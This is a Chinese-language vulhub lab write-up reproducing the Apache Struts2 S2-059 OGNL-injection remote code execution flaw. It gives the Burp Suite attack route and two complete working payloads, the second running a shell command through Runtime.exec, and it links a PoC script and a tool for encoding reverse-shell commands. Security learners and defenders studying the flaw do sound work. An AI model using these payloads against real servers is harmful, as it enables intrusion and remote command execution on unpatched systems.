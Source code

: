 # Struts2_059_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

​			影响版本

  		2.0.0 - 2.5.20

### 0x02漏洞复现

#### payload1：

?id=%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}

#### payload2：

?id=%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /test'))}





​			登录界面

![S2_013_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_1.png)



​			Burpsuite抓包，发送第一个payload

![S2_013_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_2.png)

​				

​			Burpsuite抓包，发送第二个payload

![S2_013_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_3.jpg)







​				docker进入容器，查看tmp目录，生成test文件，命令成功执行。

![S2_059_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_4.png)



(PS：代码执行后无回显，利用bash反弹shell需要base64编码,，参考了 **hatjwe**师傅的文章)

base64在线编码： http://www.jackson-t.ca/runtime-exec-payloads.html 

poc：https://github.com/ADummmy/vulhub_Writeup/tree/main/code/struts2_059_poc.py

### 0x03总结

​				这是笔者的第三篇文章，复现了大概一天左右，网络上文章质量参差不齐，刚入门导致代码审计看不懂，对新手友好度太差，要么就是上来一段payload和poc，都不告诉你，具体流程是什么，踩了很多坑。不过在此过程中，本人也学到了很多。共勉！

### 0x04参考资料

https://my.oschina.net/u/4593034/blog/4693589